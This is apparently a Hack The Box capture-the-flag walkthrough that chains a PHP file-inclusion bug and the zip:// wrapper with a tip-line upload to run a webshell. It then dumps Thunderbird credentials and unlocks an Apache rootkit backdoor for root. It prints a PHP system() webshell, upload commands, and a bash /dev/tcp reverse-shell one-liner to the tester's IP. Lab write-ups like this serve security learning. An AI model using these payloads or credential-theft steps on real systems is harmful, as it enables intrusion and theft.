This box is rated hard difficulty on HTB. It involves us combining a file upload with an LFI vulnerability to get a reverse shell on the machine as www-data. Once on the system, we dump a user's Thunderbird credentials to pivot users and then reverse engineer a rootkit left behind by a previous attacker to escalate privileges to root.

## Host Scanning
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP yields no results.

```
$ sudo nmap -p80 -sCV 10.129.27.143 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-03 01:12 -0400
Nmap scan report for 10.129.27.143
Host is up (0.057s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Ubuntu))
|_http-title: FBIs Most Wanted: FSociety
|_http-server-header: Apache/2.4.25 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.93 seconds
```

There is just one port open:
- An Apache web server on port 80

This tells me that this box will be very web-heavy, at least until we grab a shell, so I fire up Ffuf to start searching for subdirectories and Vhosts in the background before heading to the site.

## Website Enumeration
Checking out the landing page shows a custom-built site displaying information about the fsociety hacking group on the FBI's most wanted list. The suspect portion gives us a few names to work with, which I'll keep in mind for any login panels down the road.



### Upload Function
The site only has one real function, which is to send information to their tipline at the Upload tab.



Testing this form out reveals that the value of the Information field is reflected back to our page upon submission. This would make it a prime candidate for Cross-Site Scripting if left unfiltered.



A quick test payload which would've rendered the supplied text to be bold fails, leaving us with little to go off of.



### Discovering LFI
Since the op parameter takes in seemingly useful values such as upload and view, I fuzz it for anything else that may seem interesting.

```
└─$ ffuf -u 'http://10.129.27.143/?op=FUZZ' -w /opt/seclists/Discovery/Web-Content/raft-small-words.txt --fs 1757

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.27.143/?op=FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/Web-Content/raft-small-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1757
________________________________________________

home                    [Status: 200, Size: 4213, Words: 1169, Lines: 124, Duration: 56ms]
upload                  [Status: 200, Size: 2567, Words: 450, Lines: 72, Duration: 56ms]
common                  [Status: 200, Size: 1694, Words: 316, Lines: 57, Duration: 54ms]
view                    [Status: 302, Size: 1694, Words: 316, Lines: 57, Duration: 55ms]
list                    [Status: 200, Size: 1855, Words: 340, Lines: 62, Duration: 56ms]
0                       [Status: 200, Size: 4213, Words: 1169, Lines: 124, Duration: 51ms]
index                   [Status: 500, Size: 1694, Words: 316, Lines: 57, Duration: 2969ms]
:: Progress: [43007/43007] :: Job [1/1] :: 653 req/sec :: Duration: [0:01:09] :: Errors: 0 ::
```

Those results show that tries to fetch the file given to the parameter and displays it to the page. This hypothesis is reinforced by the request for index throwing a 500 Internal Server error as it tries to reinclude itself and panics.

### Using PHP Wrappers
I attempt to grab the `/etc/passwd` file as a proof of concept for LFI, but only end up with a funny error.



A simple payload like that gets sniped by the WAF/detection method and a few more attempts show that any indication of a relative file path won't work. Next, I make use of PHP wrappers to convert a known resource to Base64 as a proof of concept.

```
/?op=php://filter/convert.base64-encode/resource=index
```



Decoding this blob reveals the index page's source code and confirms the LFI.



From the output, we can see that the site's PHP code is looking for path traversal characters like `../` and killing the request.

This [Invicti article](https://www.invicti.com/blog/web-security/php-stream-wrappers) delves a bit deeper if you're curious about this technique, but we're essentially forcing the machine to locate resources and then print them to the page to bypass the security in place.

Whilst reading through the index page's code, I notice a section that automatically sets an admin cookie to the value of 0 if it's not set. Changing this to be 1 grants us access to a new function that lists all uploaded tips to the site.



The whiterose.txt file hints at a vulnerable GET parameter which we already discovered as well as an email address disclosing a hostname of DarkArmy.htb.



## Initial Foothold
By now, it's obvious we need to upload a webshell using the tipline and use the LFI to proc it. Viewing the upload.php page's source code clearly defines how and where files are stored on the site.

```
if(isset($_POST['submit']) && isset($_POST['tip'])) {
        // CSRF Token to help ensure this user came from our submission form.
        if 1 == 1 { //(!empty($_POST['token'])) {
            if (hash_equals($token, $_POST['token'])) {
                $_SESSION['token'] = bin2hex(openssl_random_pseudo_bytes(32));
                // Place tips in the folder of the client IP Address.
                if (!is_dir('uploads/' . $client_ip)) {
                    mkdir('uploads/' . $client_ip, 0755, false);
                }
                $tip = $_POST['tip'];
                $secretname = genFilename();
                file_put_contents("uploads/". $client_ip . '/' . $secretname,  $tip);
                header("Location: ?op=view&secretname=$secretname");
           } else {
                print 'Hacker Detected.';
                print $token;
                die();
         }
        }
```

### Uploading Webshell
The files are sent to `/uploads/<IP>` using a function from common.php. Checking that code out shows that it creates a SHA1 hash using the remote IP address, user agent, current time, and then a random value.

```
<?php
/* Stop hackers. */
if(!defined('FROM_INDEX')) die();

// If the hacker cannot control the filename, it's totally safe to let them write files... Or is it?
function genFilename() {
        return sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT'] . time() . mt_rand());
}

?>
```

So we cannot control the filename after it is uploaded, but luckily the contents are left untouched. The op parameter isn't blocking any PHP filters, so we can use the `zip://` one to have the site run PHP code within the archive. I'll just stick with a `$_GET` payload to keep things simple. 

```
└─$ cat websh.php 
<?php echo system($_GET['cmd']); ?>
                                                                                                                                                                               
└─$ zip pwn.zip websh.php
  adding: websh.php (stored 0%)
```

We'll need to grab the **PHPSESSID** and **CSRF** cookies in order for this to work as well, which can be done with cURL and grepping for them.

```
└─$ curl -sD - 'http://10.129.27.143/?op=upload' | grep -e PHPSESSID -e 'name="token"'
Set-Cookie: PHPSESSID=1grhmeojn1p7poff06g065j883; path=/
        <input type="text" id="token" name="token" style="display: none" value="a4c24e168e1bd02dba77fe2aad7afd2a77ea0bd7c105000fe4856ab38c9f259b" style="width:355px;" />
```

Now we can make a POST request to the upload page while redirecting our webshell from the zip archive into the tip parameter.

```
└─$ curl -X POST -sD - -F "tip=<pwn.zip" -F "name=cbev" \
-F "token=a4c24e168e1bd02dba77fe2aad7afd2a77ea0bd7c105000fe4856ab38c9f259b" \
-F 'submit=Send Tip!' http://10.129.27.143/?op=upload \
-H "Referer: http://10.129.27.143/?op=upload" \
-H "Cookie: admin=1; PHPSESSID=1grhmeojn1p7poff06g065j883"

HTTP/1.1 302 Found
Date: Sun, 03 May 2026 06:24:13 GMT
Server: Apache/2.4.25 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: ?op=view&secretname=b2c4d949dac5a03e40778928f3e7c6fc00d47c61
Content-Length: 1730
Content-Type: text/html; charset=UTF-8
[...]
```

Checking the servers response headers gives us the location where our webshell is now sitting. We can now combine the LFI with this file to execute commands in the context of the web server using the `zip://` PHP wrapper. We have already gathered that the uploads follow a format of `/uploads/<REMOTE_IP>/<SECRET_NAME>`, so we plug in the correct values to include our webshell.

```
/?op=zip://uploads/10.10.14.243/b2c4d949dac5a03e40778928f3e7c6fc00d47c61%23websh&cmd=id
```

### Grabbing Reverse Shell
Be sure to percent-encode the ampersand (& becomes %23) since we're passing it through a URL. A quick sanity check with a simple id command confirms this works and we can move to grabbing a reverse shell from it.



I end up using a bash one-liner to catch a connection, making sure to URL-encode the bad characters to get it working. 

```
bash -c 'bash -i >& /dev/tcp/10.10.14.243/443 0>&1'
```

Final payload:

```
/?op=zip://uploads/10.10.14.243/b2c4d949dac5a03e40778928f3e7c6fc00d47c61%23websh&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.243%2F443%200%3E%261%27
```



At this point we can grab the user flag and work on ways to escalate privileges to root user.

## Privilege Escalation

### Thunderbird Creds
I'd usually head for a database when landing on a box as the web service, however there wasn't one in this case. I do notice a .thunderbird (an application that manages calendars, messaging, and contacts) directory under the Dom user's home directory, which can be dumped to gather saved credentials.



After exfilling these files with Netcat, I install Thunderbird on my Kali machine and just swap out my profile for Dom's. Checking the saved passwords gives us credentials for IMAP and SMTP.



These are reused for the machine as well, allowing us to switch users to their account from our existing shell.



### Reverse Engineering RootKit
Light filesystem enumeration doesn't reveal anything very interesting, so I head back to Thunderbird, this time checking for email communication. This shows an exchange between Dom and Elliot explaining how she is concerned that rootkit has been placed on her machine by the name of _apache_modrootme_. This should be accessed to spawn a root shell when typing "get root", but it doesn't seem to be working for her.

```
dom@crimestoppers:~/.thunderbird/36jinndk.default/ImapMail/crimestoppers.htb$ cat Sent-1
From 
Subject: Re: RCE Vulnerability
To: WhiteRose <WhiteRose@DarkArmy.htb>
References: <9bf4236f-9487-a71a-bca7-90fa7b9e869f@DarkArmy.htb>
From: dom <dom@crimestoppers.htb>
Message-ID: <18ea978c-f4f3-58e9-28fa-70f1a7b28664@crimestoppers.htb>
Date: Sat, 16 Dec 2017 11:49:27 -0800
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101
 Thunderbird/52.5.0
MIME-Version: 1.0
In-Reply-To: <9bf4236f-9487-a71a-bca7-90fa7b9e869f@DarkArmy.htb>
Content-Type: text/plain; charset=utf-8; format=flowed
Content-Transfer-Encoding: 8bit
Content-Language: en-US

If we created a bug bounty page, would you be open to using them as a 
middle man?  Submit the bug, they will verify the existence and handle 
the payment.

I don't know how this ecoins things work.

On 12/16/2017 11:46 AM, WhiteRose wrote:
> Hello,
>
> I left note on "Leave a tip" page but no response.  Major 
> vulnerability exists in your site!  This gives code execution. 
> Continue to investigate us, we will sell exploit!  Perhaps buyer will 
> not be so kind.
>

[...]

[CUT]

[...]

--------------6B48F005D20D18C4F951CD41--
From 
To: elliot@ecorp.htb
From: dom <dom@crimestoppers.htb>
Subject: Potential Rootkit
Message-ID: <54814ded-5024-79db-3386-045cd5d205b2@crimestoppers.htb>
Date: Sat, 16 Dec 2017 12:55:24 -0800
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101
 Thunderbird/52.5.0
MIME-Version: 1.0
Content-Type: text/plain; charset=utf-8; format=flowed
Content-Transfer-Encoding: 8bit
Content-Language: en-US

Elliot.

We got a suspicious email from the DarkArmy claiming there is a Remote 
Code Execution bug on our Webserver.  I don't trust them and ran 
rkhunter, it reported that there a rootkit installed called: 
apache_modrootme backdoor.

According to my research, if this rootkit was on the server I should be 
able to run "nc localhost 80" and then type "get root" to get a root 
shell.   However, the server just errors out without providing any shell 
at all.  Would you mind checking if this is a false positive?
```

Searching for files following a similar naming convention shows an enabled module named rootme inside the /etc/apache2 directory. 

```
└─$ find / -type f -name *rootme* 2>/dev/null
/usr/lib/apache2/modules/mod_rootme.so
/etc/apache2/mods-available/rootme.load

└─$ locate rootme
/etc/apache2/mods-available/rootme.load
/etc/apache2/mods-enabled/rootme.load
/usr/lib/apache2/modules/mod_rootme.so
```

I transfer this to my local machine and have a look at it with IDA, showing that a function named _rootme_post_read_request_ makes a call to _darkarmy_. After that, a call to compare the result of _darkarmy_ and a buffer is made which intrigues me.



Checking out _darkarmy_ shows that it takes two strings, performs an XOR operation against their first ten characters.



We can recreate this in Python to find out the secret string used.

```
>>> a = 'HackTheBox'
>>> b = '\x0E\x14\x0d\x38\x3b\x0b\x0c\x27\x1b\x01'
>>> [chr(ord(x) ^ ord(y))  for x,y in zip(a,b)]
```



Providing this string in the Netcat connection when attempting to use the rootkit succeeds this time, giving us root privileges on the box.



That's all y'all, this box had a cool theme of retracing an attacker's footsteps through some more complex vulnerabilities that I thought was awesome. I hope this was helpful to anyone following along or stuck and happy hacking!
